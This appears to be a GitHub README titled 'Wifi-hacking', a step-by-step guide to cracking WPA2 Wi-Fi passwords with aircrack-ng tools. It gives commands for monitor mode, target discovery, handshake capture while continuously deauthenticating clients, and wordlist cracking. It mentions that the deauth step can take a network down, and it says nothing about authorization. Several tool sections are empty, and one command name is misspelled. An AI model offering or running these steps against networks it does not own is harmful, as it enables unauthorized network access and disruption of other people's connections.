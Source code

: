 # Wifi-hacking

## Table of content

- [hardware](#hardware)
- [tools](#tools)
  - [aircrack ng](#aircrack-ng)
  - [airmon ng](#airmon-ng)
  - [airodump ng](#airodump-ng)
  - [wifite](#wifite)
- [cracking manualy with aircrack tools](#cracking-manualy-with-aircrack-tools)
  - [kill processes](#kill-processes)
  - [interface to monitor mode](#interface-to-monitor-mode)
  - [discover wifi](#discover-wifi)
  - [view just the target](#view-just-the-target)
  - [capture WPA2 handshake plus deauthenticate](#capture-WPA2-handshake-plus-deauthenticate)
  - [cracking the handshake](#cracking-the-handshake)

  
  

  
### hardware
  
my recommended use is Alfa AWUS036ACH-C
  
example site:
```
https://cdon.se/hemelektronik/alfa-awus036ach-c-p85144443?gclid=Cj0KCQjwof6WBhD4ARIsAOi65ajClanJarTELWA8x2m-jddNlS2pyJNLfaKC6foh1Ex3yA0PkQHw674aAoA8EALw_wcB
```
  
### tools 
  
## aircrack ng
  
## airmon ng
  
## airodump-ng
  
## wifite
  
## cracking manualy with aircrack tools
### kill processes
killing the processes that may interfere
```
sudo airmon-ng check kill
```

### interface to monitor mode
to put the interface/adapter to monitor mode type:
```
sudo airmon-ng start <interface>
```

### discover wifi
to search and find wifi in the area type:
```
sudo airodump-ng <interface>
```
then you should find the wifi you want to target and write up
*   BSSID (it is the mac address)
*   Channel (CH)

### view just the target
to see just the target type:
```
sudo airodump-ng <interface> -d <BSSID>
```
then you can see info about the target
plsu you can see clients connected to the network


### capture WPA2 handshake plus deauthenticate
now you will capture the WPA2 handshake. type:
```
sudo airodump-ng -w <name of the file you want to name for the capture> --bssid <BSSID> <interface>
```
press enter
then at the same time after entered the capture and letting it go we will go on and open a second window/terminal we will deauthenticate clients from the network by typing:
```
sudo aireplay-ng --deauth 0 -a <BSSID> <interface>
```
(ops the deauth part can sometimes be used to Ddos a wifi network)

then after a while the handshake should be captured

### cracking the handshake
we should have a file which ends with ".pcap" 
we have to put the adapter which is on monitor mode back to manage mode by typing: 
```
sudo airomon-ng stop <interface>
``` 
now its time to crack the .pcap file
```
aircrack-ng <the pcap file> -w <wordlist to crack the password>
```



